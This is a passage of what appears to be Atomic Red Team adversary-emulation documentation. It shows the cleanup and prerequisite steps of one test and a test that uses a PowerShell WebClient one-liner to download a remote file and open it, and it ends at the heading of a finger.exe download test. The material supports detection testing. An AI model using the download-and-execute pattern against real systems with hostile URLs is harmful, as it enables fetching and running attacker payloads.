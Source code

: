 #### Cleanup Commands:

```sh
rm -f #{output_file}
```

#### Dependencies: Run with `sh`!

##### Description: The whois and timeout commands must be present

##### Check Prereq Commands:

```sh
which whois && which timeout
```

##### Get Prereq Commands:

```sh
echo "Please install timeout and the whois package"
```

<br/>
<br/>

## Atomic Test #15 - File Download via PowerShell

Use PowerShell to download and write an arbitrary file from the internet. Example is from the 2021 Threat Detection Report by Red Canary.

**Supported Platforms:** Windows

**auto_generated_guid:** 54a4daf1-71df-4383-9ba7-f1a295d8b6d2

#### Inputs:

| Name               | Description      | Type   | Default Value                                                                                                      |
| ------------------ | ---------------- | ------ | ------------------------------------------------------------------------------------------------------------------ |
| target_remote_file | File to download | url    | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt |
| output_file        | File to write to | string | LICENSE.txt                                                                                                        |

#### Attack Commands: Run with `powershell`!

```powershell
(New-Object Net.WebClient).DownloadString('#{target_remote_file}') | Out-File #{output_file}; Invoke-Item #{output_file}
```

<br/>
<br/>

## Atomic Test #16 - File download with finger.exe on Windows
